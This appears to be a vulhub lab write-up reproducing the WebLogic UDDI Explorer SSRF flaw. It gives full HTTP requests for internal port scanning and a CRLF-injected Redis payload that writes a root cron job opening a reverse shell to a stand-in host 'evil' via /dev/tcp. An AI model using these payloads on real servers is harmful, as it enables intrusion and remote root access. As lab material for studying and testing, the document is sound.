

Weblogic UDDI Explorer Server-Side Request Forgery (SSRF)¶
Oracle WebLogic Server is a Java-based enterprise application server. A Server-Side Request Forgery (SSRF) vulnerability exists in WebLogic's UDDI Explorer application, which allows attackers to send arbitrary HTTP requests through the server, potentially leading to internal network scanning or attacks against vulnerable internal services like Redis.
References:
- https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf
- https://foxglovesecurity.com/2015/11/06/what-is-server-side-request-forgery-ssrf/
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
Environment Setup¶
Execute the following command to start a WebLogic server:
docker compose up -d
After the server starts, visit http://your-ip:7001/uddiexplorer/ to access the UDDI Explorer application. No authentication is required.
Vulnerability Reproduction¶
The SSRF vulnerability exists in the SearchPublicRegistries.jsp page. Using Burp Suite, we can send a request to http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp to test this vulnerability.
First, we can try accessing an internal service like http://127.0.0.1:7001:
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
When accessing an available port, you will receive an error response with a status code. For non-HTTP protocols, you'll get a "did not have a valid SOAP content-type" error.

When accessing a non-existent port, the response will be "could not connect over HTTP to server".

By analyzing these different error messages, we can effectively scan the internal network.
Redis Shell Exploitation¶
A notable characteristic of WebLogic's SSRF vulnerability is that despite being a GET request, we can inject newline characters using %0a%0d. Since services like Redis use newlines to separate commands, we can leverage this to attack internal Redis servers.
First, we scan the internal network for Redis servers (Docker networks typically use 172.* subnets) and find that 172.18.0.2:6379 is accessible:

We can then send three Redis commands to write a shell script into /etc/crontab:
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
URL encode these commands:
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
Send the encoded payload through the SSRF vulnerability:
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

Successfully obtaining a reverse shell:

Note that there are several locations where cron jobs can be exploited:
/etc/crontab(default system crontab)/etc/cron.d/*(system cron job directory)/var/spool/cron/root(CentOS root user cron file)/var/spool/cron/crontabs/root(Debian root user cron file)